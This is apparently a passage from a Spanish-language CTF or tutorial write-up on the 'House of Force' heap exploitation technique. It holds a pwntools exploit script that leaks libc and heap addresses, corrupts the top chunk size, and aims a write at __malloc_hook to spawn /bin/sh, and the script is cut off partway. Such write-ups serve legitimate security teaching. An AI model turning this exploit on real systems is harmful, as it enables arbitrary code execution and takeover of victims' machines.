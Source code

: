 Para llamar a system bastaría con volver a llamar a `malloc`, pasándole la dirección de un cadena `"/bin/sh\0"`, para conseguir esta dirección, podemos almacenar la cadena en la primera llamada que hicimos a `malloc` y utilizar `heap` como dirección, o usar la siguiente línea:

```python
malloc(next(libc.search(b"/bin/sh")), "")
```

El script completo sería:

```python
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("house_of_force")
libc = ELF(elf.runpath + b"/libc.so.6") # elf.libc broke again

gs = '''
continue
'''
def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)

# Select the "malloc" option, send size & data.
def malloc(size, data):
    io.send(b"1")
    io.sendafter(b"size: ", f"{size}".encode())
    io.sendafter(b"data: ", data)
    io.recvuntil(b"> ")

# Calculate the "wraparound" distance between two addresses.
def delta(x, y):
    return (0xffffffffffffffff - x) + y

io = start()

# This binary leaks the address of puts(), use it to resolve the libc load address.
io.recvuntil(b"puts() @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts

# This binary leaks the heap start address.
io.recvuntil(b"heap @ ")
heap = int(io.recvline(), 16)
io.recvuntil(b"> ")
io.timeout = 0.1

# =============================================================================

# =-=-=- EXAMPLE -=-=-=

# The "heap" variable holds the heap start address.
info(f"heap: 0x{heap:02x}")

# Program symbols are available via "elf.sym.<symbol name>".
info(f"target: 0x{elf.sym.target:02x}")

# The malloc() function chooses option 1 from the menu.
# Its arguments are "size" and "data".
malloc(24, b"Y"*24+p64(0xffffffffffffffff))

distancia = (libc.sym.__malloc_hook - 0x20) - (heap + 0x20)

```